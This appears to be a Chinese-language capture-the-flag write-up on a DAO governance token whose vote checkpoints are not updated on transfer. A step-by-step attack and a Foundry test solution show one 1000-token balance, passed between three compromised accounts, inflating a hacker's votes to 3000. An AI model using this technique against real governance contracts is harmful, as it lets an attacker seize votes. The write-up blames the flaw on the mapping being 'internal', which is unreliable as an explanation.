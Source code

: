 W2

大前提 hacker 取得三位使用者的 private key

### 合約漏洞
- 首先是 `mapping(address => address) internal _delegates;` 
這個變數的問題，這個變數是用來記錄使用者的代表人，但是這個變數是 `internal` 的，所以可以直接透過 `delegate` 這個函數來修改其他使用者的代表人。

- mapping 還沒產生時，會是空值，所以透過 `_delegates[_addr]` 來取值時，會是 0x0000000000000000000000000000000000000000
- 然而 `_moveDelegates` if (from != to && amount > 0) 這個判斷式，只要 from != to 就會執行，
- 所以只要 from 是 0x if (from != address(0)) 跳過，只執行 if (to != address(0)) 這個判斷式。
這騷操作，確實不好看....。

```js
    function delegate(address _addr) external {
        // msg.sender: 0x0000000000000000000000000000000000000001
        // hacker: 0x0000000000000000000000000000000000001337
        return _delegate(msg.sender, _addr);
    }
    function _delegate(address _addr, address delegatee) internal {
        address currentDelegate = _delegates[_addr]; // 還沒設定前 _delegates[_addr] 還是空 所以回傳遞只會是 0x0000000000000000000000000000000000000000
        uint256 _addrBalance = balanceOf(_addr);
        _delegates[_addr] = delegatee;
        _moveDelegates(currentDelegate, delegatee, _addrBalance);
    }
    function _moveDelegates(address from, address to, uint256 amount) internal {
        if (from != to && amount > 0) {
            if (from != address(0)) {
                uint32 fromNum = numCheckpoints[from];
                uint256 fromOld = fromNum > 0 ? checkpoints[from][fromNum - 1].votes : 0;
                uint256 fromNew = fromOld - amount;
                _writeCheckpoint(from, fromNum, fromOld, fromNew);
            }

            if (to != address(0)) {
                uint32 toNum = numCheckpoints[to];
                uint256 toOld = toNum > 0 ? checkpoints[to][toNum - 1].votes : 0;
                uint256 toNew = toOld + amount;
                _writeCheckpoint(to, toNum, toOld, toNew);
            }
        }
    }
```

### 攻擊方式


過程

- 1. hacker 使用 alice 的 錢包地址，執行 `delegate` 函數，將 alice 的代表人設定為 hacker 自己，hacker 代表人獲得 1000 vote。
- 2. hacker 使用 alice 的 錢包地址，執行 `transfer` 函數，將 1000 token 轉給 bob。
- 3. hacker 使用 bob 的 錢包地址，執行 `delegate` 函數，將 bob 的代表人設定為 hacker 自己，hacker 代表人獲得 2000 vote。
- 4. hacker 使用 bob 的 錢包地址，執行 `transfer` 函數，將 1000 token 轉給 carl。
- 5. hacker 使用 carl 的 錢包地址，執行 `delegate` 函數，將 carl 的代表人設定為 hacker 自己，hacker 代表人獲得 3000 vote。
- 6. hacker 使用 carl 的 錢包地址，執行 `transfer` 函數，將 1000 token 轉給自己，取得代幣完美收場。


```js
  vm.startPrank(alice); // hacker using alice address
  // write your soluiton here
  daoToken.delegate(hacker); // alice delegate to hacker -> hacker vote = 1000
  daoToken.transfer(bob, 1000); // hacker using alice address send token to bob
  vm.startPrank(bob); // hacker using bob address
  daoToken.delegate(hacker); // bob delegate to hacker -> hacker vote = 2000
  daoToken.transfer(carl, 1000); // hacker using bob address send token to carl
  vm.startPrank(carl); // hacker using carl address
  daoToken.delegate(hacker); // carl delegate to hacker -> hacker vote = 3000
  daoToken.transfer(hacker, 1000); // hacker using carl address send token to hacker
```